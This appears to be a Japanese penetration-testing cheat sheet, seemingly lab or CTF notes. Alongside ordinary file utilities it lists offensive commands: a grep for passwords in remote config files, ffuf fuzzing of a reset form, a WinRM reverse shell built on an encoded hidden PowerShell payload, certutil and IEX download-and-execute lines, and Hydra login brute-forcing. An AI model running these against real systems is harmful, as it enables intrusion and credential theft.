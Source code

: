 ## ## tree

| コマンド例           | 説明                                       |
| --------------- | ---------------------------------------- |
| `tree -L 2`     | 深さ2まで表示（サブディレクトリが多い時に便利）                 |
| `tree -a`       | **隠しファイル（.dotfiles）も含めて表示**              |
| `tree -f`       | **フルパスで表示**（後でコピペしやすい）                   |
| `tree -pug`     | **パーミッション、所有者、グループ**付きで表示（権限確認に便利）       |
| `tree -h`       | **ファイルサイズを人間に読みやすく表示**（KB/MB/GB）         |
| `tree -I '*.log | *.tmp'`                                  |
| `tree -s`       | **サイズ順に並べる**（-Dと併用すると日時も表示可能）            |
| `tree -C`       | **色付き出力**（デフォで有効な場合も）                    |
| `tree -Q`       | **ファイル名をダブルクォートで囲む**（スペース入りファイル名がわかりやすい） |

### ### 情報収集向き
```sh 
tree -a -f -pug -h -L 3
```

---

## ## 圧縮コマンド
### ### tar
```sh
tar cvzf ファイル名.tar.gz 圧縮対象ディレクトリ/
```

---
## ## 解凍コマンド
### ### 7z
```sh
7z x file.7z
```

### ### tar.gz
```sh
tar -zxvf filename.tar.gz
```

### ### zip
- 圧縮
```
zip -r FILENAME.zip FILE_DIR
```

---
## ## 複数のファイルから特定の文字列を見つける方法
### ### Find
```sh
find /mnt/remote -type f -name '*.config' -exec grep -iH 'password' {} +
```
- オプションの説明：
	-  `find` コマンド部分
		- `/mnt/remote` ← 対象ディレクトリ
		- `-type f` ← 通常ファイルのみ検索（ディレクトリは無視）
		- `-name '*.config'` ← `.config` で終わるファイル名のみ対象
		- `-exec ... {} +` ← 見つけたファイルを `grep` に**まとめて渡す**
    - `grep` コマンド部分
		- `-i` ← **大文字小文字を無視**して「password」を検索（例：`PASSWORD`, `PassWord` もOK）
	    - `-H` ← ヒットした行の前に**ファイル名を表示**
	
---
### ### バイナリファイルを読む方法
```sh
strings hoge.sdf | less
```

---
# # SQLコマンド
# # MySQL コマンド
## ## ログイン
```sh
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

---
# # FFUF
## ## Recuest.txtを作成し、Fuzzingを行う方法
```sh
ffuf -request ./req.txt -w wordlist.txt
```
- この際のリクエストファイルの中に列挙したい箇所をFUZZとして置く必要がある。
```sh
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
Content-Length: 25
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.11.113:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.113:8080/forgot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=FUZZ
```

## ## Proxyを指定する方法
- `-x`をつければいい
```sh
ffuf -request ./req.txt -w /opt/wordlists/ssti.fuzz -v -x http://127.0.0.1:8080
```

---
# # WinRM
## ## Windowsからコマンドの実施
- RCE
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

- ReverseShell
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

---
# # ファイル転送
## ## HTTP/HTTPS
- リッスン側
```sh
sudo python3 -m http.server 80

# -dで任意のディレクトリを指定できる。
python3 -m http.server -d /opt/somedir
```

- ダウンロード側
Linuxの場合:
```sh
wget http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -O <お好みのファイル名>

curl http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -o <お好みのファイル名>
```
Windowsの場合:
```
C:\> certutil -URLcache -f http://<HTTPサーバのIP>/file file

PS C:\> powershell -c "Invoke-Webrequest -OutFile <お好みのファイル名> -Uri http://<HTTPサーバのIP>/<ファイル名>"

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<HTTPサーバのIP>:<ポート番号>/<ファイル名>')
```


# # 参考資料
- https://qiita.com/Hashibirokou/items/5fbb2e94ca42434e4575

---
# # Hydra
## ## http/https
```sh
# POST Method
## ↓文字一致で判断(部分一致でもOK)
hydra -L /opt/wordlists/names.txt -p baconandcheese http-post-form "//umbraco/backoffice/UmbracoApi/Authentication/PostLogin:"username":"^USER^","password":"^PASS^":F=failed"

## ステータスベース(誤検知が多いので注意)
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```
---
